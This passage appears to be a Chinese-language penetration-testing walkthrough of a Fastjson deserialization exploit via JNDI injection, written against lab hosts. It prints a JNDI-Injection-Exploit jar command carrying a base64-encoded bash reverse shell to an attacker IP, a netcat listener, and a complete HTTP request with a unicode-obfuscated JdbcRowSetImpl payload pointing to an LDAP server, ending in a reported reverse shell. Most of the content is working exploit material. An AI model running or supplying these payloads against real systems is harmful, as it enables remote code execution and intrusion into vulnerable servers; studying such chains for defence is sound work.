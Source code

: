 ## 
## 4.4 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
1、使用burp插件检测Fastjson时，要抓取数据包修改POST，再加上json格式数据，然后`Forword`即可检测。

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645904083428-168d8a48-2218-4fbe-9ddb-ccc973c0166a.png#clientId=u5df42e45-922d-4&from=paste&height=764&id=u3b9eff58&margin=%5Bobject%20Object%5D&name=image.png&originHeight=764&originWidth=1349&originalType=binary&ratio=1&size=121987&status=done&style=none&taskId=u9362116c-36f4-4da6-b8cd-09a28c42960&width=1349)


2、开启一个LDAP服务，命令经过base64编码
```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMC4xNTYvMTExMSAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.210.156"
```
3、攻击机监听端口
`nc -lvvp 1111`
​

4、burp发送恶意json数据
```shell
POST / HTTP/1.1
Host: 192.168.210.206:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 692

{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://192.168.210.156:1389/cqydk3","autoCommit":true}}
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645070245258-4a4ec40f-bacd-48c8-adb6-50327e4453e1.png#clientId=u99fb2d32-3b09-4&from=paste&id=u5c10ce99&margin=%5Bobject%20Object%5D&name=image.png&originHeight=517&originWidth=1008&originalType=binary&ratio=1&size=61348&status=done&style=none&taskId=u77a1e4ef-c8df-4d3c-bb2c-7e3ac5c8eb2)


![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645070325588-73143af3-e870-4c9d-8dcd-cbf6c3733838.png#clientId=u99fb2d32-3b09-4&from=paste&id=ub385ea69&margin=%5Bobject%20Object%5D&name=image.png&originHeight=370&originWidth=1631&originalType=binary&ratio=1&size=136531&status=done&style=none&taskId=u18986c91-2e83-4ad3-b709-23cfd0afffb)
​

5、成功反弹shell

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645070564105-be5753dc-d2c9-4d87-87a2-a43286ca8822.png#clientId=u99fb2d32-3b09-4&from=paste&id=uaa1072cb&margin=%5Bobject%20Object%5D&name=image.png&originHeight=164&originWidth=611&originalType=binary&ratio=1&size=28204&status=done&style=none&taskId=u70787ba2-21b9-44cb-b726-03c3b7a9f9d)
